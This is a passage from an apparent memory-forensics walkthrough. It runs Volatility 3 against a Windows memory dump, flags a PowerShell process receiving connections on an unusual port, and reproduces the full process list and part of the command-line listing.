43.204.228.96        24     9620   powershell.exe       2023-03-10 06:41:56.000000 UTC
43.204.228.96        24     9620   powershell.exe       2023-03-10 06:44:22.000000 UTC
43.204.228.96        24     9620   powershell.exe       2023-03-10 06:44:32.000000 UTC
43.204.228.96        24     9620   powershell.exe       2023-03-10 06:45:19.000000 UTC
52.113.196.254       443    5260   SearchApp.exe        2023-03-10 06:39:55.000000 UTC
68.219.88.225        443    4812   audiodg.exe          2023-03-10 06:20:13.000000 UTC
68.219.88.97         443    8608   msedge.exe           2023-03-10 06:01:16.000000 UTC
::1                  445    4      System               2023-03-10 06:17:20.000000 UTC
::1                  50133  4      System               2023-03-10 06:17:20.000000 UTC
```


Not all of the output is malicious, and it takes intuition and practice to determine which avenues to pursue, but what stands out to me is the PowerShell process receiving six connections on a non-standard port.

Next, I check the list of running processes:

```bash
$ vol3 -f Dump.mem windows.pslist | tee process_scan

Volatility 3 Framework 2.26.2
Progress:  100.00       PDB scanning finished
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime        File output

4       0       System  0xdc81cf87a080  123     -       N/A     False   2023-03-10 06:00:43.000000 UTC  N/A     Disabled
140     4       Registry        0xdc81cf906080  4       -       N/A     False   2023-03-10 06:00:38.000000 UTC  N/A     Disabled
380     4       smss.exe        0xdc81d062e040  2       -       N/A     False   2023-03-10 06:00:43.000000 UTC  N/A     Disabled
504     492     csrss.exe       0xdc81d04d4140  12      -       0       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
580     492     wininit.exe     0xdc81d14d1080  1       -       0       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
588     572     csrss.exe       0xdc81d14da140  15      -       1       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
680     580     services.exe    0xdc81d152f080  7       -       0       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
688     572     winlogon.exe    0xdc81d1533080  3       -       1       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
744     580     lsass.exe       0xdc81d153d080  10      -       0       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
860     680     svchost.exe     0xdc81d15d8240  13      -       0       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
888     688     fontdrvhost.ex  0xdc81d1c0d180  5       -       1       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
896     580     fontdrvhost.ex  0xdc81d1c0f180  5       -       0       False   2023-03-10 06:00:45.000000 UTC  N/A     Disabled
972     680     svchost.exe     0xdc81d1c812c0  10      -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
424     680     svchost.exe     0xdc81d1c2a080  4       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
656     688     dwm.exe 0xdc81d1d240c0  14      -       1       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1088    680     svchost.exe     0xdc81d1d511c0  4       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1096    680     svchost.exe     0xdc81d1d531c0  1       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1108    680     svchost.exe     0xdc81d1d561c0  3       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1200    680     svchost.exe     0xdc81d1d83280  1       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1212    680     svchost.exe     0xdc81d1d81200  1       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1260    680     svchost.exe     0xdc81d1dc62c0  11      -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1308    680     svchost.exe     0xdc81d1e471c0  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1372    680     svchost.exe     0xdc81d1e83240  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1448    680     svchost.exe     0xdc81d1ea71c0  7       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1456    680     svchost.exe     0xdc81d1eab240  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1520    680     svchost.exe     0xdc81d1ebf1c0  12      -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1652    680     svchost.exe     0xdc81d1fba240  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1660    680     svchost.exe     0xdc81d1fbc1c0  2       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1712    680     svchost.exe     0xdc81d1fc32c0  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1824    680     svchost.exe     0xdc81d2052240  3       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1832    680     svchost.exe     0xdc81d204e280  4       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1840    680     svchost.exe     0xdc81d20501c0  7       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1968    680     svchost.exe     0xdc81d20cc1c0  7       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1984    4       MemCompression  0xdc81d20d4040  22      -       N/A     False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2004    680     svchost.exe     0xdc81d20d10c0  2       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1516    680     svchost.exe     0xdc81d216d280  2       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
1720    680     svchost.exe     0xdc81d2180200  3       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2088    680     svchost.exe     0xdc81d2204240  13      -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2184    680     svchost.exe     0xdc81d22151c0  1       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2244    680     svchost.exe     0xdc81d228d240  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2308    680     svchost.exe     0xdc81d22a61c0  11      -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2504    680     svchost.exe     0xdc81d23511c0  3       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2500    680     svchost.exe     0xdc81d234f1c0  4       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2572    680     svchost.exe     0xdc81d2341240  2       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2688    680     svchost.exe     0xdc81d23e6240  4       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2764    680     spoolsv.exe     0xdc81d2446200  7       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
2876    680     svchost.exe     0xdc81d24b5300  5       -       0       False   2023-03-10 06:00:46.000000 UTC  N/A     Disabled
3016    680     svchost.exe     0xdc81d26630c0  18      -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3028    680     svchost.exe     0xdc81d2667240  8       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3036    680     svchost.exe     0xdc81d26692c0  6       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3060    680     svchost.exe     0xdc81d252b280  3       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
1432    680     vm3dservice.ex  0xdc81d252e080  2       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
2372    680     svchost.exe     0xdc81d2668080  6       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
2268    680     vmtoolsd.exe    0xdc81d2530280  11      -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
2444    680     VGAuthService.  0xdc81d2531080  2       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
2384    680     OfficeClickToR  0xdc81d2533340  20      -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3204    680     svchost.exe     0xdc81d25711c0  4       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3256    1432    vm3dservice.ex  0xdc81d25b9200  2       -       1       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3304    680     svchost.exe     0xdc81d25be240  7       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3644    680     dllhost.exe     0xdc81cf91c080  10      -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3896    860     WmiPrvSE.exe    0xdc81cf936080  13      -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
3944    680     msdtc.exe       0xdc81d1f69280  9       -       0       False   2023-03-10 06:00:47.000000 UTC  N/A     Disabled
1436    680     svchost.exe     0xdc81d2ba22c0  11      -       0       False   2023-03-10 06:00:48.000000 UTC  N/A     Disabled
4192    680     svchost.exe     0xdc81d2bed280  4       -       0       False   2023-03-10 06:00:48.000000 UTC  N/A     Disabled
4304    680     svchost.exe     0xdc81d2e581c0  5       -       0       False   2023-03-10 06:00:48.000000 UTC  N/A     Disabled
4736    680     svchost.exe     0xdc81d2c99340  5       -       0       False   2023-03-10 06:00:49.000000 UTC  N/A     Disabled
4896    680     svchost.exe     0xdc81cf984080  0       -       0       False   2023-03-10 06:00:55.000000 UTC  2023-03-10 06:04:16.000000 UTC  Disabled
4944    680     svchost.exe     0xdc81d29dc080  7       -       0       False   2023-03-10 06:00:55.000000 UTC  N/A     Disabled
5100    860     dllhost.exe     0xdc81d2ea52c0  5       -       0       False   2023-03-10 06:00:57.000000 UTC  N/A     Disabled
4552    1652    sihost.exe      0xdc81d2d8a300  9       -       1       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
4624    680     svchost.exe     0xdc81d2ddb080  11      -       1       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
4628    680     svchost.exe     0xdc81d2de0080  3       -       1       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
3776    1372    taskhostw.exe   0xdc81d2f0b080  8       -       1       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
4724    680     svchost.exe     0xdc81d2f5f280  3       -       0       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
2180    4724    ctfmon.exe      0xdc81d2fa2300  14      -       1       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
5392    688     userinit.exe    0xdc81d3016080  0       -       1       False   2023-03-10 06:00:59.000000 UTC  2023-03-10 06:01:22.000000 UTC  Disabled
5416    5392    explorer.exe    0xdc81d3021080  72      -       1       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
5536    680     svchost.exe     0xdc81d3106240  3       -       0       False   2023-03-10 06:00:59.000000 UTC  N/A     Disabled
6056    680     svchost.exe     0xdc81d2f0a2c0  7       -       1       False   2023-03-10 06:01:00.000000 UTC  N/A     Disabled
5740    860     StartMenuExper  0xdc81d3011080  7       -       1       False   2023-03-10 06:01:01.000000 UTC  N/A     Disabled
5972    860     RuntimeBroker.  0xdc81d32d9080  3       -       1       False   2023-03-10 06:01:01.000000 UTC  N/A     Disabled
5260    860     SearchApp.exe   0xdc81d32f3080  65      -       1       False   2023-03-10 06:01:01.000000 UTC  N/A     Disabled
5296    860     RuntimeBroker.  0xdc81d35d1080  13      -       1       False   2023-03-10 06:01:01.000000 UTC  N/A     Disabled
6228    680     svchost.exe     0xdc81d2de6080  1       -       0       False   2023-03-10 06:01:02.000000 UTC  N/A     Disabled
6560    680     SearchIndexer.  0xdc81d1cf0080  14      -       0       False   2023-03-10 06:01:02.000000 UTC  N/A     Disabled
7028    680     svchost.exe     0xdc81d39e71c0  6       -       0       False   2023-03-10 06:01:07.000000 UTC  N/A     Disabled
4472    680     svchost.exe     0xdc81d39f7280  10      -       0       False   2023-03-10 06:01:10.000000 UTC  N/A     Disabled
1128    4480    firefox.exe     0xdc81d3aaf080  77      -       1       False   2023-03-10 06:01:10.000000 UTC  N/A     Disabled
5468    1128    firefox.exe     0xdc81d3bcc080  28      -       1       False   2023-03-10 06:01:10.000000 UTC  N/A     Disabled
6536    1128    firefox.exe     0xdc81d3acf080  5       -       1       False   2023-03-10 06:01:11.000000 UTC  N/A     Disabled
7232    1128    firefox.exe     0xdc81d3aec080  27      -       1       False   2023-03-10 06:01:11.000000 UTC  N/A     Disabled
7352    860     RuntimeBroker.  0xdc81d3b66080  3       -       1       False   2023-03-10 06:01:11.000000 UTC  N/A     Disabled
7436    860     TextInputHost.  0xdc81d3aea080  10      -       1       False   2023-03-10 06:01:11.000000 UTC  N/A     Disabled
7584    1128    firefox.exe     0xdc81d35b0080  27      -       1       False   2023-03-10 06:01:11.000000 UTC  N/A     Disabled
7900    5416    SecurityHealth  0xdc81d3ad0080  1       -       1       False   2023-03-10 06:01:12.000000 UTC  N/A     Disabled
7932    680     SecurityHealth  0xdc81d487e280  10      -       0       False   2023-03-10 06:01:12.000000 UTC  N/A     Disabled
8056    5416    vmtoolsd.exe    0xdc81d48da080  9       -       1       False   2023-03-10 06:01:12.000000 UTC  N/A     Disabled
7360    5416    OneDrive.exe    0xdc81d4a08080  18      -       1       False   2023-03-10 06:01:13.000000 UTC  N/A     Disabled
8188    5416    msedge.exe      0xdc81d49d12c0  29      -       1       False   2023-03-10 06:01:14.000000 UTC  N/A     Disabled
8304    8188    msedge.exe      0xdc81d2d40080  7       -       1       False   2023-03-10 06:01:14.000000 UTC  N/A     Disabled
8600    8188    msedge.exe      0xdc81d4a43080  18      -       1       False   2023-03-10 06:01:15.000000 UTC  N/A     Disabled
8608    8188    msedge.exe      0xdc81d4a03080  13      -       1       False   2023-03-10 06:01:15.000000 UTC  N/A     Disabled
8640    8188    msedge.exe      0xdc81d4ddb0c0  8       -       1       False   2023-03-10 06:01:15.000000 UTC  N/A     Disabled
9152    1128    firefox.exe     0xdc81d4c04080  32      -       1       False   2023-03-10 06:01:15.000000 UTC  N/A     Disabled
8972    8188    msedge.exe      0xdc81d4c0e080  20      -       1       False   2023-03-10 06:01:16.000000 UTC  N/A     Disabled
9776    8188    msedge.exe      0xdc81d80e70c0  12      -       1       False   2023-03-10 06:01:16.000000 UTC  N/A     Disabled
8960    1128    firefox.exe     0xdc81d4b0b340  4       -       1       False   2023-03-10 06:02:27.000000 UTC  N/A     Disabled
10232   1128    firefox.exe     0xdc81d3453080  5       -       1       False   2023-03-10 06:02:27.000000 UTC  N/A     Disabled
5840    1128    firefox.exe     0xdc81d2ea3080  5       -       1       False   2023-03-10 06:02:29.000000 UTC  N/A     Disabled
9888    5416    WINWORD.EXE     0xdc81d47a7340  15      -       1       False   2023-03-10 06:02:32.000000 UTC  N/A     Disabled
8624    680     svchost.exe     0xdc81d04a3080  3       -       0       False   2023-03-10 06:02:34.000000 UTC  N/A     Disabled
8688    680     SgrmBroker.exe  0xdc81d4bac0c0  6       -       0       False   2023-03-10 06:02:47.000000 UTC  N/A     Disabled
848     680     svchost.exe     0xdc81d2e4d080  6       -       0       False   2023-03-10 06:02:48.000000 UTC  N/A     Disabled
2104    680     svchost.exe     0xdc81d38ed2c0  8       -       0       False   2023-03-10 06:02:48.000000 UTC  N/A     Disabled
4352    680     svchost.exe     0xdc81cf933080  2       -       1       False   2023-03-10 06:02:48.000000 UTC  N/A     Disabled
1860    5416    WinRAR.exe      0xdc81d4c0d080  3       -       1       False   2023-03-10 06:02:59.000000 UTC  N/A     Disabled
6412    1860    WinRAR.exe      0xdc81d3616080  3       -       1       False   2023-03-10 06:03:06.000000 UTC  N/A     Disabled
9620    2272    powershell.exe  0xdc81d3628080  19      -       1       True    2023-03-10 06:03:17.000000 UTC  N/A     Disabled
9676    9620    conhost.exe     0xdc81d328a080  3       -       1       False   2023-03-10 06:03:17.000000 UTC  N/A     Disabled
8860    680     svchost.exe     0xdc81d365c080  0       -       0       False   2023-03-10 06:03:46.000000 UTC  2023-03-10 06:03:51.000000 UTC  Disabled
7228    860     dllhost.exe     0xdc81d4c03080  7       -       1       False   2023-03-10 06:08:20.000000 UTC  N/A     Disabled
9472    860     SearchApp.exe   0xdc81cf95c080  36      -       1       False   2023-03-10 06:11:02.000000 UTC  N/A     Disabled
1172    5416    Taskmgr.exe     0xdc81d2d42080  16      -       1       False   2023-03-10 06:15:01.000000 UTC  N/A     Disabled
3932    4352    rundll32.exe    0xdc81d4b4a080  3       -       1       False   2023-03-10 06:16:53.000000 UTC  N/A     Disabled
3444    3932    cmd.exe 0xdc81d39c3340  3       -       1       False   2023-03-10 06:18:46.000000 UTC  N/A     Disabled
8028    3444    conhost.exe     0xdc81d2564080  3       -       1       False   2023-03-10 06:18:46.000000 UTC  N/A     Disabled
1028    860     smartscreen.ex  0xdc81d80f6080  8       -       1       False   2023-03-10 06:35:53.000000 UTC  N/A     Disabled
4812    2308    audiodg.exe     0xdc81d3517080  5       -       0       False   2023-03-10 06:35:53.000000 UTC  N/A     Disabled
6048    1128    firefox.exe     0xdc81d22c8080  12      -       1       False   2023-03-10 06:38:37.000000 UTC  N/A     Disabled
8856    680     svchost.exe     0xdc81d3714080  5       -       0       False   2023-03-10 06:39:28.000000 UTC  N/A     Disabled
1944    680     svchost.exe     0xdc81d29dd080  4       -       0       False   2023-03-10 06:39:29.000000 UTC  N/A     Disabled
6964    1128    firefox.exe     0xdc81d2c05080  14      -       1       False   2023-03-10 06:39:58.000000 UTC  N/A     Disabled
4992    680     TeamViewer_Ser  0xdc81d1eaa080  27      -       0       True    2023-03-10 06:41:09.000000 UTC  N/A     Disabled
5052    3444    TeamViewer.exe  0xdc81d3717080  18      -       1       True    2023-03-10 06:42:09.000000 UTC  N/A     Disabled
7860    4992    tv_w32.exe      0xdc81d3449080  2       -       1       True    2023-03-10 06:42:09.000000 UTC  N/A     Disabled
8916    4992    tv_x64.exe      0xdc81d4776340  2       -       1       False   2023-03-10 06:42:09.000000 UTC  N/A     Disabled
5080    1128    firefox.exe     0xdc81d2610080  16      -       1       False   2023-03-10 06:43:37.000000 UTC  N/A     Disabled
620     6560    SearchProtocol  0xdc81d4bf2080  10      -       0       False   2023-03-10 06:44:54.000000 UTC  N/A     Disabled
1416    6560    SearchFilterHo  0xdc81d884c340  7       -       0       False   2023-03-10 06:44:54.000000 UTC  N/A     Disabled
3356    5416    RamCapture64.e  0xdc81d3684340  5       -       1       False   2023-03-10 06:45:09.000000 UTC  N/A     Disabled
7312    3356    conhost.exe     0xdc81d8cd7340  6       -       1       False   2023-03-10 06:45:09.000000 UTC  N/A     Disabled

```


Lastly, check the list of process command line arguments:

```bash
$ vol3 -f Dump.mem windows.cmdline | tee cmdline
Volatility 3 Framework 2.26.2canning finished

PID     Process Args

4       System  -
140     Registry    -
380     smss.exe    \SystemRoot\System32\smss.exe
504     csrss.exe   %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
580     wininit.exe wininit.exe
588     csrss.exe   %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
680     services.exe    C:\WINDOWS\system32\services.exe
688     winlogon.exe    winlogon.exe
744     lsass.exe   C:\WINDOWS\system32\lsass.exe
860     svchost.exe C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p
888     fontdrvhost.ex  "fontdrvhost.exe"
896     fontdrvhost.ex  "fontdrvhost.exe"
972     svchost.exe C:\WINDOWS\system32\svchost.exe -k RPCSS -p
424     svchost.exe C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p -s LSM
656     dwm.exe "dwm.exe"
1088    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalService -s W32Time
1096    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalService -p -s nsi
1108    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s lmhosts
1200    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s NcbService
1212    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s TimeBrokerSvc
1260    svchost.exe C:\WINDOWS\system32\svchost.exe -k NetworkService -p -s Dnscache
1308    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s Dhcp
1372    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Schedule
1448    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s EventLog
1456    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s ProfSvc
1520    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
1652    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s UserManager
1660    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceNoNetwork -p
1712    svchost.exe C:\WINDOWS\System32\svchost.exe -k NetworkService -p -s NlaSvc
1824    svchost.exe C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s Themes
1832    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s SysMain
1840    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalService -p -s EventSystem
1968    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalService -p -s netprofm
1984    MemCompression  -
2004    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s SENS
1516    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s AudioEndpointBuilder
1720    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s WinHttpAutoProxySvc
2088    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Winmgmt
2184    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalService -p -s DispBrokerDesktopSvc
2244    svchost.exe C:\WINDOWS\System32\svchost.exe -k NetSvcs -p -s iphlpsvc
2308    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p
2504    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p
2500    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p
2572    svchost.exe C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s ShellHWDetection
2688    svchost.exe C:\WINDOWS\system32\svchost.exe -k appmodel -p -s StateRepository
2764    spoolsv.exe C:\WINDOWS\System32\spoolsv.exe
2876    svchost.exe C:\WINDOWS\System32\svchost.exe -k NetworkService -p -s LanmanWorkstation
3016    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNoNetwork -p -s DPS
3028    svchost.exe C:\WINDOWS\System32\svchost.exe -k utcsvc -p
3036    svchost.exe C:\WINDOWS\system32\svchost.exe -k NetworkService -p -s CryptSvc
3060    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s TrkWks
1432    vm3dservice.ex  C:\WINDOWS\system32\vm3dservice.exe
2372    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s WpnService
2268    vmtoolsd.exe    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
2444    VGAuthService.  "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
2384    OfficeClickToR  "C:\Program Files\Common Files\Microsoft Shared\ClickToRun\OfficeClickToRun.exe" /service
3204    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalService -p -s WdiServiceHost
3256    vm3dservice.ex  vm3dservice.exe -n
3304    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s LanmanServer
3644    dllhost.exe C:\WINDOWS\system32\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}
3896    WmiPrvSE.exe    C:\WINDOWS\system32\wbem\wmiprvse.exe
3944    msdtc.exe   C:\WINDOWS\System32\msdtc.exe
1436    svchost.exe C:\WINDOWS\System32\svchost.exe -k NetworkService -p -s DoSvc
4192    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s StorSvc
4304    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -s RmSvc
4736    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalService -p -s LicenseManager
4896    svchost.exe -
4944    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s TokenBroker
5100    dllhost.exe C:\WINDOWS\system32\DllHost.exe /Processid:{3EB3C877-1F16-487C-9050-104DBCD66683}
4552    sihost.exe  sihost.exe
4624    svchost.exe C:\WINDOWS\system32\svchost.exe -k UnistackSvcGroup -s CDPUserSvc
4628    svchost.exe C:\WINDOWS\system32\svchost.exe -k UnistackSvcGroup -s WpnUserService
3776    taskhostw.exe   taskhostw.exe {222A245B-E637-4AE9-A93F-A59CA119A75E}
4724    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s TabletInputService
2180    ctfmon.exe  "ctfmon.exe"
5392    userinit.exe    -
5416    explorer.exe    C:\WINDOWS\Explorer.EXE
5536    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Appinfo
6056    svchost.exe C:\WINDOWS\system32\svchost.exe -k ClipboardSvcGroup -p -s cbdhsvc
5740    StartMenuExper  "C:\Windows\SystemApps\Microsoft.Windows.StartMenuExperienceHost_cw5n1h2txyewy\StartMenuExperienceHost.exe" -ServerName:App.AppXywbrabmsek0gm3tkwpr5kwzbs55tkqay.mca
5972    RuntimeBroker.  C:\Windows\System32\RuntimeBroker.exe -Embedding
5260    SearchApp.exe   "C:\WINDOWS\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe" -ServerName:CortanaUI.AppX8z9r6jm96hw4bsbneegw0kyxx296wr9t.mca
5296    RuntimeBroker.  C:\Windows\System32\RuntimeBroker.exe -Embedding
6228    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s lfsvc
6560    SearchIndexer.  C:\WINDOWS\system32\SearchIndexer.exe /Embedding
7028    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalServiceAndNoImpersonation -p -s SSDPSRV
4472    svchost.exe C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s PcaSvc
1128    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe"
5468    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.0.871733516\1815458352" -parentBuildID 20230227191043 -prefsHandle 1780 -prefMapHandle 1760 -prefsLen 30702 -prefMapSize 236464 -appDir "C:\Program Files\Mozilla Firefox\browser" - {551222ec-030c-4a3f-bc45-aade1aaea31e} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 1860 1fa2692f858 gpu
6536    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.1.1017481083\754006446" -parentBuildID 20230227191043 -prefsHandle 2320 -prefMapHandle 2308 -prefsLen 30702 -prefMapSize 236464 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {4063cf47-5372-498e-ba22-a104518c65ab} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 2332 1fa19b8b558 socket
7232    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.2.226710919\1871627431" -childID 1 -isForBrowser -prefsHandle 3056 -prefMapHandle 3052 -prefsLen 30792 -prefMapSize 236464 -jsInitHandle 1544 -jsInitLen 246560 -a11yResourceId 64 -parentBuildID 20230227191043 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {e681ef7a-2b3b-4986-9ee2-623a24b674d0} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 3068 1fa2ad76858 tab
7352    RuntimeBroker.  C:\Windows\System32\RuntimeBroker.exe -Embedding
7436    TextInputHost.  "C:\WINDOWS\SystemApps\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\TextInputHost.exe" -ServerName:InputApp.AppXjd5de1g66v206tj52m9d0dtpppx4cgpn.mca
7584    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.3.151766835\984673540" -childID 2 -isForBrowser -prefsHandle 4060 -prefMapHandle 4056 -prefsLen 36311 -prefMapSize 236464 -jsInitHandle 1544 -jsInitLen 246560 -a11yResourceId 64 -parentBuildID 20230227191043 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {926ac3bf-51e9-47c6-bf76-66bbfd2b3b03} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 4072 1fa2c860e58 tab
7900    SecurityHealth  "C:\Windows\System32\SecurityHealthSystray.exe"
7932    SecurityHealth  C:\WINDOWS\system32\SecurityHealthService.exe
8056    vmtoolsd.exe    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
7360    OneDrive.exe    "C:\Program Files\Microsoft OneDrive\OneDrive.exe" /background
8188    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start /prefetch:5
